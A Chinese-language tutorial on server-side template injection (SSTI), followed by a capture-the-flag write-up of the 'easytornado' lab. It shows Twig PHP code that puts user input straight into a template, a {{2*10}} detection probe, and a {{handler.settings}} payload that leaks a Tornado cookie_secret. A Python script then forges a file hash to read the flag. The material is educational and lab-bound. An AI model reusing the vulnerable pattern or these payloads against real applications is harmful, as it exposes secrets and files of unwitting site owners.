# 服务器模板注入攻击(SSTI)

## 模板注入原理

模板注入涉及的是服务端Web应用使用模板引擎渲染用户请求的过程，这里我们使用 PHP 模版引擎 Twig 作为例子来说明模板注入产生的原理。考虑下面这段代码：

```
<?php
require_once dirname(__FILE__).'/../lib/Twig/Autoloader.php';
Twig_Autoloader::register(true);
$twig = new Twig_Environment(new Twig_Loader_String());
$output = $twig->render("Hello {{name}}", array("name" => $_GET["name"]));  // 将用户输入作为模版变量的值
echo $output;
```

使用 Twig 模版引擎渲染页面，其中模版含有 {{name}}  变量，其模版变量值来自于 GET 请求参数 $_GET["name"] 。显然这段代码并没有什么问题，即使你想通过 name  参数传递一段 JavaScript 代码给服务端进行渲染，也许你会认为这里可以进行 XSS，但是由于模版引擎一般都默认对渲染的变量值进行编码和转义，所以并不会造成跨站脚本攻击：



但是，如果渲染的模版内容受到用户的控制，情况就不一样了。修改代码为：

```php
<?php
require_once dirname(__FILE__).'/../lib/Twig/Autoloader.php';
Twig_Autoloader::register(true);
$twig = new Twig_Environment(new Twig_Loader_String());
$output = $twig->render("Hello {$_GET['name']}");  // 将用户输入作为模版内容的一部分
echo $output;
```

上面这段代码在构建模版时，拼接了用户输入作为模板的内容，现在如果再向服务端直接传递 JavaScript 代码，用户输入会原样输出，测试结果显而易见：



对比上面两种情况，简单的说服务端模板注入的形成终究还是因为服务端相信了用户的输出而造成的（Web安全真谛：永远不要相信用户的输入！）。当然了，第二种情况下，攻击者不仅仅能插入 JavaScript 脚本，还能针对模板框架进行进一步的攻击，此部分只说明原理，在后面会对攻击利用进行详细说明和演示。

## 模板注入检测

上面已经讲明了模板注入的形成原来，现在就来谈谈对其进行检测和扫描的方法。如果服务端将用户的输入作为了模板的一部分，那么在页面渲染时也必定会将用户输入的内容进行模版编译和解析最后输出。

借用本文第二部分所用到的代码：

```
<?php
require_once dirname(__FILE__).'/../lib/Twig/Autoloader.php';
Twig_Autoloader::register(true);
$twig = new Twig_Environment(new Twig_Loader_String());
$output = $twig->render("Hello {$_GET['name']}");  // 将用户输入作为模版内容的一部分
echo $output;
```

在 Twig 模板引擎里，{{ var }}  除了可以输出传递的变量以外，还能执行一些基本的表达式然后将其结果作为该模板变量的值，例如这里用户输入 name={{2*10}} ，则在服务端拼接的模版内容为：

```
Hello {{2*10}}
```

Twig 模板引擎在编译模板的过程中会计算 {{2*10}}  中的表达式 2*10 ，会将其返回值 20  作为模板变量的值输出，如下图：



## 靶场测试

### 1. 环境

`攻防世界`中`easytornado`：

https://adworld.xctf.org.cn/task/answer?type=web&number=3&grade=1&id=5422&page=1

### 2.说明

这里主要是利用Python的tornado框架中存在服务器模板注入攻击(SSTI)来获取flag

### 3.解题流程

**初始访问：**



依次点开三个文件



`俩个信息:`flag在fllllllllllllag文件里；可以通过http://220.249.52.133:34761/file?filename=/fllllllllllllag&filehash=xxx  获取到flag 信息



`一个信息：`rrender是python中的一个渲染函数，渲染变量到模板中，所以这里估计是服务器模块注入攻击（SSTI）



`一个信息`：filename是fllllllllllllag，所以需要找到cookie_secret的值，就可以计算出`md5(cookie_secret+md5(filename))`，也就是filehash的值，就可以找打flag


**找cookie_secret:：**

测试后发现还有一个error界面，url为：

http://220.249.52.133:34761/error?msg=error



所以，大概可以确定之类存在`服务器端模板注入攻击（SSTI)`
通过查阅文档发现cookie_secret在Application对象settings属性中，还发现self.application.settings有一个别名

```
equestHandler.settings
An alias for self.application.settings.
```

handler指向的处理当前这个页面的RequestHandler对象，
RequestHandler.settings指向self.application.settings，
因此handler.settings指向RequestHandler.application.settings。

构造payload获取cookie_secret

```
http://220.249.52.133:34761/error?msg={{handler.settings}}
```



获取到`cookie_secret`的值


**获取filehash值**

这里通过编写Python脚本直接获取：

```
import hashlib


def md5(s):
    md5 = hashlib.md5()
    md5.update(s)
    return md5.hexdigest()


def filehash():
    filename = "/fllllllllllllag"
    cookie_secret = "3a5c32f3-c030-4ba5-9eb6-f70361cdb6ae"
    md5_1 = md5(filename.encode())
    print(md5((cookie_secret+md5_1).encode()))


if __name__ == "__main__":
    filehash()

```

结果为：




**最终：**

通过`filename`和`filehash`构造url来获取flag

```
http://220.249.52.133:34761/file?filename=/fllllllllllllag&filehash=7a1636d7874c5a65318a9b9253f4eb1f
```



## 参考文章

1. [服务器模板注入攻击(SSTI)](https://www.freebuf.com/vuls/83999.html)
2. [BUUCT-WEB-easy_tornado](https://blog.csdn.net/weixin_44677409/article/details/94410580)